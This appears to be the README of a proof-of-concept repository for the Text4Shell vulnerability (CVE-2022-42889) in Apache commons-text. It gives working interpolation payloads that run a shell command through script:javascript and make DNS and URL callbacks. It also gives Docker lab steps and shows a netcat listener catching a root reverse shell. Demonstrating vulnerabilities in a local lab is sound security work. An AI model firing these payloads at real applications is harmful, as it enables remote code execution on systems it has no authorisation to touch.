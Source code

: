 # CVE-2022-42889-POC
A simple demo application that shows how to exploit the CVE-2022-42889 vulnerability.   
Utilizes OOB (Out of Band) services to demonstrate dns and url prefixes.

JavaDocs for commons-text interpolation [commons-text JavaDocs](https://commons.apache.org/proper/commons-text/javadocs/api-release/org/apache/commons/text/StringSubstitutor.html)

Example interpolations
* script:javascript ("${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/blop')}")
* dns ("${dns:address|HOST}")
* url ("${url:UTF-8:http://HOST")

Quote from Rapid7
>The vulnerability has been compared to Log4Shell since it is an open-source library-level vulnerability that is likely to impact a wide variety of software applications that use the relevant object.   
>However, initial analysis indicates that this is a bad comparison. The nature of the vulnerability means that unlike Log4Shell, it will be rare that an application uses the vulnerable component of Commons Text to process untrusted, potentially malicious input.
# Prerequisites
* docker
* java
* maven

Java and maven can be skipped if one fetch image from [Docker Hub](https://hub.docker.com/r/korteke/text4shell)
# Usage

Build application
```
mvn clean package
```

Build docker image
```
docker build -t cve-2022-42889-poc .
```

Run docker image
```
docker run --rm -p 8081:8081 -t cve-2022-42889-poc
```

Access application and follow instructions
```
open http://localhost:8081
```

Check that the vulnerability creates a new file in the /tmp/ directory (/tmp/blop)
```
➜  ~ docker exec -ti cve-2022-42889-poc /bin/ls /tmp

blop		 tomcat-docbase.8081.12439436974042217796
hsperfdata_root  tomcat.8081.2549096106233509364
➜  ~
```

Reverse shell. Launch "nc" on your local machine
```
➜  ~ nc -lv 4242
root@7cfcd6a39a61:/# whoami && uname -a
whoami && uname -a
root
Linux 7cfcd6a39a61 5.10.76-linuxkit #1 SMP Mon Nov 8 10:21:19 UTC 2021 x86_64 GNU/Linux
root@7cfcd6a39a61:/#
```

#### UI
![](images/cve-2022-42889-main.png)

#### Network interaction proof. Tested with local interactsh-client.
![](images/cve-2022-42889-interactsh.png)

### More information
* [NIST NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)
* [Rapid 7](https://www.rapid7.com/blog/post/2022/10/17/cve-2022-42889-keep-calm-and-stop-saying-4shell/)